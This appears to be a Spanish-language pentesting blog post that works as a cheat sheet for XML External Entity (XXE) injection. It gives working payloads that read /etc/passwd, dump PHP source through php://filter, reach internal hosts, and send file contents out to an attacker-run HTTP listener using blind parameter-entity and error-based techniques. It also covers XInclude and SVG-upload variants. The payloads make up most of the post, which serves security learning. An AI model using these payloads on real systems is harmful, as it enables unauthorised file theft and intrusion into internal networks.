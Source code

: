 ```yaml
---
title: "XXE (XML External Entity Injection)"
author: Tuch0
date: 2023-09-17
categories: [Vectores-de-Ataque]
tags: [xxe-injection, xxe, ADCCFFA6]
image:
    path: ../../assets/Miniaturas/VectoresDeAtaque/XXE.jpg
    width: 800
    height: 500
---
```



# Entidades
- Genéricas / Customizadas
- Externas (XXE)
- Pre-definidas

## Inyecciones Básicas
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <bugreport>
    <title>&xxe;</title>
    <cwe>test</cwe>
    <cvss>test</cvss>
    <reward>test</reward>
    </bugreport>
```

> Esto lo que va a hacer es intentar listar un archivo que reside dentro de la máquina victima mediante un "wrapper" en este caso "file:///"
{: .prompt-info }

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
    <bugreport>
    <title>&xxe;</title>
    <cwe>test</cwe>
    <cvss>test</cvss>
    <reward>test</reward>
    </bugreport>
```

> Este "wrapper" sirve para que te reporte un archivo .php que reside en la máquina victima en formato "base64" de manera que asi lo puedes decodear con "base64 -d" y analizar el codigo que esta corriendo por detrás
{: .prompt-info }

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://<ip_interna>/<file>"> ]>
<bugreport>
<title>&xxe;</title>
<cwe>test</cwe>
<cvss>test</cvss>
<reward>test</reward>
</bugreport>
```

> Con esto lo que podemos hacer es acceder a una IP interna que se encuentre dentro de la red y obtener datos de algún archivo o lo que queramos
{: .prompt-info }

## Inyecciones a Ciegas
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://<ip_externa>/<file>"> %xxe;]>
<bugreport>
<title>test</title>
<cwe>test</cwe>
<cvss>test</cvss>
<reward>test</reward>
</bugreport>
```
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<<!ENTITY &#x25; exfil SYSTEM 'http://<local_ip>/?file=%file;'>"> 
%eval
%exfil
```
```shell
# Ahora nos ponemos por escucha por el puerto 80
python3 -m http.server 80
```

![](../../assets/VectoresDeAtaque/XXE-(XML-External-Entity-Injection)/1.jpg)

> Lo que esta pasando aqui es que de cara a la estructura XXE no nos permite poner entidades (&xxe;)

Por lo tanto lo que esta pasando es que se esta comunicando con un recurso que hemos creado en mi sistema que ya tiene definida entidades XXE por lo tanto la web apunta a nuestro recurso y realiza lo que le hemos indicado en nuestro archivo malicioso y nos lo reporta por pantalla en base64
{: .prompt-info }

## Inyecciones vía mensajes de error
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://<ip_externa>/<file>"> %xxe; ]>
<bugreport>
<title>&xxe;</titl1e>
<cwe>test</cwe>
<cvss>test</cvss>
<reward>test</reward>
</bugreport>
```
![](../../assets/VectoresDeAtaque/XXE-(XML-External-Entity-Injection)/2.jpg)

> Como vemos nos da error a si que vamos a aprovecharnos de esto para que despues de el error nos carge el archivo que queramos
{: .prompt-info }

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///meloinvento/%file;'>">
%eval;
%exfil;
```

> Lo que esta pasando aqui es que nosotros ocasinamos el error poniendo un archivo que no existe y como nosotros de cara a trámitar la petición ya estamos cargando la entidad en la propia web a si que despues de el erro obtendremos el archivo indicado en este caso "/etc/passwd"
{: .prompt-info }

![](../../assets/VectoresDeAtaque/XXE-(XML-External-Entity-Injection)/3.jpg)

## Inyecciones Xinclude Attack

> Cuando la petición se trámita de manera que no tiene una estructura XML podemos realizar este ataque
{: .prompt-info }

![](../../assets/VectoresDeAtaque/XXE-(XML-External-Entity-Injection)/4.jpg)

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"></foo>
```

## Inyecciones vía subida de imagen

> Estas inyecciones se las puedes ver como en este caso al poner un comentario, creamos nuestro archivo que contenga:
{: .prompt-info }

![](../../assets/VectoresDeAtaque/XXE-(XML-External-Entity-Injection)/5.jpg)

![](../../assets/VectoresDeAtaque/XXE-(XML-External-Entity-Injection)/6.jpg)

> Si da error o algo lo que podemos hacer es añadirle una extension como .svg , .jpg, .png etc
{: .prompt-info }

![](../../assets/VectoresDeAtaque/XXE-(XML-External-Entity-Injection)/7.jpg)

> Como vemos la propia data nos la representa en la imagen
{: .prompt-info }

